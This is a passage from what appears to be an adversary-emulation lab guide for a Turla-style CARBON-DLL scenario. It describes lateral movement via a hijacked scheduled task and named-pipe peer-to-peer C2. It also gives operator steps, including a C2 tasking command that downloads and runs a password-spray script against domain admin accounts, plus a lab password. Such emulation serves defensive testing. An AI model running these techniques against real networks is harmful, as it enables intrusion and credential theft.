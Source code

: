 In preparation for lateral movement, CARBON-DLL downloads a second copy of
its installer and moves it to the `System32` directory of the domain controller.
Then, the `Customer Experience Improvement Program`'s `Consolidator` scheduled
task is modified to execute the CARBON-DLL installer.

Lastly, CARBON-DLL sends a request to run the modified scheduled task,
achieving lateral movement to and execution on the domain controller.

By this point, Frieda has logged into the domain controller to start a browser
process as part of legitimate user activity, which the new CARBON-DLL implant
injects into to begin kicking off its communication with the C2 server.

Rather than communicate directly to the C2 redirector over HTTP, the new CARBON-DLL
implant uses peer-to-peer communication over named pipes through the first
CARBON-DLL implant on `hobgoblin (10.20.20.102)`. Discovery commands are then executed,
leading to the identification of an Apache web server and the workstation for
the administrator of the Apache server, `Adalwolfa`.

Peer-to-peer communication will occur over the `dsnap` named pipe on both participating hosts.

---

### :biohazard: Procedures

:arrow_right: Return to your RDP session to `hobgoblin (10.20.20.102)` as
`Gunter`. Minimize (do not close) the `hobgoblin (10.20.20.102)` RDP window. 

* Start a new RDP session to `bannik (10.20.10.9)` as `Frieda`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Frieda  | Password3! |

* Close any spurious windows

* Open up Microsoft Edge (search for `Edge` if not in toolbar, **do not use Edge Beta**), decline all first-run start up options, and browse to `https://brieftragerin.skt.local/owa`

:arrow_right: Wait 1 minute and return to your Kali control server terminal

* Task CARBON-DLL to download and execute the batch script to spray weak
passwords against the domain admin accounts and attempt to mount the `C$` drive of the DC.

```bash
./evalsC2client.py --set-task 9b5ef515  '{"id": 1, "payload": "password_spray.bat", "payload_dest": "C:\\Windows\\Temp\\winsas64.bat", "cmd": "C:\\Windows\\Temp\\winsas64.bat"}'
```
* :heavy_exclamation_mark: Verify that the script successfully sprays `Frieda`'s password by checking the task output.
You should see task output which states the following. It should take approximately 5 minutes to complete:
  * > ```text
    > The command completed successfully.
    >
    > frieda:Password3! SUCCESS
    > ```
